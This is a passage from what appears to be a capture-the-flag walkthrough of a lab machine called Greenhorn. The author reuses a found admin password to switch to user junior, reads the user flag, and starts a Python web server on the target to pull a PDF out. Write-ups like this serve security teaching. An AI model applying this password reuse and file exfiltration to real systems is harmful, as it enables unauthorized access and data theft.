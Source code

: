 www-data is able to go into junior’s home directory and list files, but not read anything useful:

```

www-data@greenhorn:/home/junior$ ls -la
total 76
drwxr-xr-x 3 junior junior  4096 Jun 20 06:36  .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36  ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38  .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36  .cache
-rw-r----- 1 root   junior 61367 Jun 11 14:39 'Using OpenVAS.pdf'
-rw-r----- 1 root   junior    33 Jun 11 14:38  user.txt

```

### su

I have the password for the admin panel, and the website implied that junior was one working on it. I’ll see if they have reused it, and it works:

```

www-data@greenhorn:/home/junior$ su - junior
Password: 
junior@greenhorn:~$

```

I’ll grab `user.txt`:

```

junior@greenhorn:~$ cat user.txt
79b9524e************************

```

## Shell as root

### Enumeration

In junior’s home directory is a PDF file on OpenVAS:

```

junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'

```

I’ll grab a copy of this. While I don’t typically do this, a way to exfil this that I haven’t shown often is to stand up a webserver on the target with Python:

```

junior@greenhorn:~$ python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...

```
